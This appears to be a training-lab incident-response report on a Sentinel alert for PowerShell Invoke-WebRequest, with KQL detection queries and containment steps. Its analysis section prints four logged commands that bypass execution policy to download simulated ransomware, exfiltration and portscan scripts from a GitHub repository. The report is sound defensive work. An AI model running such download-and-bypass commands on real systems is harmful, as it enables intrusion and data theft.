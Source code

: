 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-61 Compliant)

---

## 1. Overview & Explanation
A security alert was generated when **PowerShell** invoked the `Invoke-WebRequest` command to download multiple suspicious scripts from a **GitHub** repository. This tactic is often seen in **post-exploitation** scenarios, where attackers use legitimate system utilities like **PowerShell** to evade defenses and retrieve malicious payloads. By blending in with normal Windows processes, they can deploy backdoors, exfiltrate data, or run malicious scripts with minimal detection.

In this case, logs from **Microsoft Defender for Endpoint (MDE)** and **Microsoft Sentinel** showed four separate script downloads from **windows-target-1**. Further analysis confirmed these scripts had also been **executed** locally. Following NIST 800-61 guidelines, the incident was triaged, contained, eradicated, and lessons learned were documented.

---

## 2. Detection & Alert Rule Creation
### 2.1 Sentinel Alert Configuration
**Alert Name**: “PowerShell Suspicious Web Request”  
**Condition**: Triggers when `Invoke-WebRequest` is used to download files from an external domain.  
**Data Source**: DeviceProcessEvents in MDE, forwarded to Sentinel via **Log Analytics Workspace**.

This section includes screenshots of the alert creation, KQL used, rules for the alert.

After its creation, the alert is triggered, I then showcase myself assigning the alert to myself, opening and working the case, then showcasing the mapped entities in the **"Investigation"** tab

```kql
// Identify PowerShell commands downloading scripts from external sources
DeviceProcessEvents
| where DeviceName contains "windows-target-1"
| where InitiatingProcessCommandLine contains "invoke-webrequest"
| project TimeGenerated, AccountName, ActionType, DeviceName, FileName, 
         FolderPath, InitiatingProcessCommandLine, SHA256
| order by TimeGenerated desc
```
![Alert-Creation.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Alert-Creation.png)

![Sentinel-Rule-Creation1.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Sentinel-Rule-Creation1.png)

![Sentinel-Rule-Creation2.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Sentinel-Rule-Creation2.png)

![Sentinel-Investigation.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Sentinel-Investigation.png)

![Sentinel-Entity-Mapping.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Sentinel-Entity-Mapping.png)
Result: An incident was created for further investigation.

---

## 3. Incident Analysis
### 3.1 Process Events
Upon investigating the alert, the following commands were identified:

```
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 
  -OutFile C:\programdata\eicar.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 
  -OutFile C:\programdata\exfiltratedata.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 
  -OutFile C:\programdata\portscan.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest 
  -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 
  -OutFile C:\programdata\pwncrypt.ps1
```

The user later confirmed they had clicked on a link to download free software around the same time the alert was generated, saw a “black screen pop up and then nothing happened,” unaware the scripts had downloaded and executed in the background.

### 3.2 Script Execution Confirmation
A follow-up query revealed the same scripts had also been run locally:

```
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where ProcessCommandLine contains "-File" 
      and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

![Malicious-Scripts.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Malicious-Scripts.png)

### 3.3 Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

![Browserling.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Browserling.png)

#### One-Line Descriptions of Each Script:

- **[portscan.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/portscan.ps1)** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **[eicar.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/eicar.ps1)** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **[exfiltratedata.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/exfiltratedata.ps1)** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **[pwncrypt.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/pwncrypt.ps1)** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

Finding: This indicates an active malicious or test scenario, as scripts were successfully invoked on the system.

---

## 4. Containment, Eradication, & Recovery
### 4.1 Containment Actions
Device Isolation

Used Microsoft Defender for Endpoint to isolate the target (windows-target-1), cutting off external attacker communication.

Comprehensive AV Scan

Ran a full antivirus scan to detect and remove potential malware associated with the downloaded scripts.

![Isolation.png](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/Isolation.png)

### 4.2 Eradication Steps
Reimaging & Redeployment

Restored the machine from a known-good backup to ensure all malicious artifacts were removed.

### 4.3 Recovery Measures

#### Security Awareness Training
Enrolled the affected user in KnowBe4 advanced training for phishing and malicious link recognition.

#### Policy Updates
Restricted PowerShell usage to administrative accounts only.

Created a new rule preventing Invoke-WebRequest for non-privileged users.

---

## 5. Post-Incident Activities
#### Lessons Learned
Reinforced user education on suspicious links.

Identified a policy gap allowing unprivileged PowerShell downloads.

#### Policy Enforcement
Implemented new controls restricting remote download commands.

Elevated overall logging and alert thresholds for external script pulls.

#### Incident Closure
Verified all malicious scripts and processes were removed.

Closed the Sentinel incident as “True Positive.”

---

## 6. Conclusion
The detection of PowerShell Invoke-WebRequest commands downloading four malicious scripts triggered a Sentinel alert. Investigation confirmed both the download and execution of the scripts, marking a successful infiltration attempt. Quick device isolation and thorough scanning limited damage. Post-incident actions included reimaging the machine, updating security policies, and enhancing user training to mitigate future threats. By following NIST 800-61 practices, this incident was effectively contained, eradicated, and used as an opportunity to strengthen overall cybersecurity posture.

---

## 7. MITRE ATT&CK TTPs
**T1059.001 (Command & Scripting Interpreter:** PowerShell)	Attacker utilized PowerShell commands (Invoke-WebRequest) to download and execute payloads.

**T1105 (Ingress Tool Transfer):**	Scripts/payloads transferred from an external source (GitHub) onto the target system.

**T1027 (Obfuscated Files or Information):**	Potential script obfuscation, bypass of security policies, and stealthy use of PowerShell.
